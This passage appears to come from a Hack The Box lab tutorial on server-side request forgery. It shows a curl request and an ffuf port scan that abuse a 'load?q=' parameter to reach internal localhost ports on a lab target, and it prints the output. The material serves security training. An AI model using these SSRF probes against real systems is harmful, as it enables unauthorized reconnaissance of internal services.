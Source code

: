 ```shell-session
AIceBear@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:1"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 30
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:36:25 GMT

[Errno 111] Connection refused
```

3. Use ffuf with the wordlist and discard the responses which have the size we previously identified.

**Port Fuzzing**

SSRF Exploitation Example

```shell-session
AIceBear@htb[/htb]$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>/load?q=http://127.0.0.1:PORT
 :: Wordlist         : PORT: ./ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 30
________________________________________________

80                      [Status: 200, Size: 153, Words: 11, Lines: 8]
5000                    [Status: 200, Size: 64, Words: 3, Lines: 1]
:: Progress: [65535/65535] :: Job [1/1] :: 577 req/sec :: Duration: [0:02:00] :: Errors: 0 ::
```

We have received a valid response for port `5000`. Let us check it as follows.

**cURL - Interacting with the Target**

SSRF Exploitation Example
